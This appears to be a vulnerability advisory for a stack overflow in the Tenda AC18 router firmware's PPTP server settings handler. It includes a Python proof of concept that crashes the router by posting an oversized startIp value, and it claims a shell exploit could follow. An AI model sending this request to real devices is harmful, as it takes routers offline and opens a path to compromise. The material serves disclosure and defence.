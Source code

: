 ## Tenda AC18 stack overflow vulnerability

## 1. Affected version
V15.03.05.19

## 2. Vulnerability details

A stack overflow vulnerability exists in the formSetPPTPServer function of the Tenda AC18 V15.03.05.019 firmware. 
The v27 variable retrieves the startIP parameter from a POST request without proper validation, and then the contents matched by v27 
and put into the v19 without size checking, resulting in a stack overflow.
   
   ![My Image](9.png)

## 3 POC

import requests
url = 'http://IP:port/goform/SetPptpServerCfg'
headers = {"Cookie": "password=You cookie"}
data = {
    'serverEn': 2,
    'startIp': 'l' * 10000
}
r = requests.post(url=url, headers=headers, data=data)
res = r.text
print(res)
You can observe the router crashing, and ultimately, it is possible to craft an exploit to gain a shell.
